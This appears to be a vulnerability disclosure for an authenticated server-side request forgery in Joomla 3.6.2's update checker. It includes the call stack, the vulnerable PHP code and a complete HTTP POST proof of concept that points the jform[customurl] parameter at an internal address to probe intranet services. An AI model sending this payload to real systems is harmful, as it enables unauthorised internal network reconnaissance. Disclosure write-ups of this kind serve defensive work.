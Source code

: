 # SSRF vulnerability in `checkForSelfUpdate` Function of `view.html.php` File (Joomla 3.6.2 version)

## 0x01 Affected version

vendor: https://github.com/joomla/joomla-cms

version: 3.6.2

php version: 7.x



## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `checkForSelfUpdate` function of Joomla 3.6.2 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `jform[customurl]` parameter. We should note that the vulnerability requires authentication before it can be triggered.



The vulnerable code is located in the `checkForSelfUpdate()` function in the `administrator/components/com_joomlaupdate/views/default/view.html.php` file. Because the function does not perform sufficient checksumming on the `jform[customurl]` parameter, the tainted variable into the tainted function `curl_exec` at the file `libraries/src/Http/Transport/CurlTransport.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `jform[customurl]` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```
Joomla\CMS\Http\Transport\CurlTransport->request (/var/www/html/joomla/libraries/src/Http/Transport/CurlTransport.php:68)
Joomla\CMS\Http\Http->get (/var/www/html/joomla/libraries/src/Http/Http.php:179)
Joomla\CMS\Updater\UpdateAdapter->getUpdateSiteResponse (/var/www/html/joomla/libraries/src/Updater/UpdateAdapter.php:257)
Joomla\CMS\Updater\Adapter\ExtensionAdapter->findUpdate (/var/www/html/joomla/libraries/src/Updater/Adapter/ExtensionAdapter.php:315)
Joomla\CMS\Updater\Updater->getUpdateObjectsForSite (/var/www/html/joomla/libraries/src/Updater/Updater.php:286)
Joomla\CMS\Updater\Updater->findUpdates (/var/www/html/joomla/libraries/src/Updater/Updater.php:167)
JoomlaupdateViewDefault->checkForSelfUpdate (/var/www/html/joomla/administrator/components/com_joomlaupdate/views/default/view.html.php:229)
```



Location of the function in the Web UI that can trigger the vulnerability

![image-20230721104358561](./assets/image-20230721104358561.png)

Code for the location of the tainted inflow

file path: `administrator/components/com_joomlaupdate/views/default/view.html.php`

```php
	private function checkForSelfUpdate()
	{
		$db = JFactory::getDbo();

		$query = $db->getQuery(true)
			->select($db->quoteName('extension_id'))
			->from($db->quoteName('#__extensions'))
			->where($db->quoteName('element') . ' = ' . $db->quote('com_joomlaupdate'));
		$db->setQuery($query);

		try
		{
			// Get the component extension ID
			$joomlaUpdateComponentId = $db->loadResult();
		}
		catch (RuntimeException $e)
		{
			// Something is wrong here!
			$joomlaUpdateComponentId = 0;
			JFactory::getApplication()->enqueueMessage($e->getMessage(), 'error');
		}

		// Try the update only if we have an extension id
		if ($joomlaUpdateComponentId != 0)
		{
			// Always force to check for an update!
			$cache_timeout = 0;

			$updater = JUpdater::getInstance();
			$updater->findUpdates($joomlaUpdateComponentId, $cache_timeout, JUpdater::STABILITY_STABLE);
...
}
```



The location of the code that ultimately triggers the vulnerability

file path:`libraries/src/Http/Transport/CurlTransport.php`

```php
	public function request($method, Uri $uri, $data = null, array $headers = null, $timeout = null, $userAgent = null)
	{
		// Setup the cURL handle.
		$ch = curl_init();
    
		$options = array();
    ...
		// Set the cURL options.
		curl_setopt_array($ch, $options);

		// Execute the request and close the connection.
		$content = curl_exec($ch);
    ...
  }
    
```

Because the `jform[customurl]` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```

POST /joomla/administrator/index.php?option=com_config HTTP/1.1
Host: 172.16.119.147
Content-Length: 223
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.119.147
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.119.147/joomla/administrator/index.php?option=com_config&view=component&component=com_joomlaupdate
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: phpbb3_2gfmo_u=2; phpbb3_2gfmo_k=ihvyjpdjg636ce09; phpbb3_2gfmo_sid=6b0b29691a714915fc5fc32e9eac4f59; phpbb3_f3tlt_u=2; phpbb3_f3tlt_k=b4060b6e677d8bcc; phpbb3_f3tlt_sid=fb30c1894184e7a1d238c8b28a2e86f7; my_wikiUserName=Admin; my_wiki_session=jattk79nu3qve3ktikp16lr66s4bngt7; f80d7dddb61ce9ba3aee0802f4d1b376=ghd4ggm02o5g9c6fnnqdfrunmf; 54e7d701daf706e028b5135c2ab6049b=04l38uemrl4jht6f1mti2p40f3
x-custom-ip-authorization: 127.0.0.1
Connection: close

jform%5Bupdatesource%5D=custom&jform%5Bminimum_stability%5D=4&jform%5Bcustomurl%5D=http%3A%2F%2F172.16.119.1%2Ffuzz&id=28&component=com_joomlaupdate&return=&task=config.save.component.save&99341813a8ce4b141b765ffbf23b0148=1
```

Examples of triggered vulnerabilities

![image-20230721105456197](./assets/image-20230721105456197.png)

## 0x03 Acknowledgement

z3
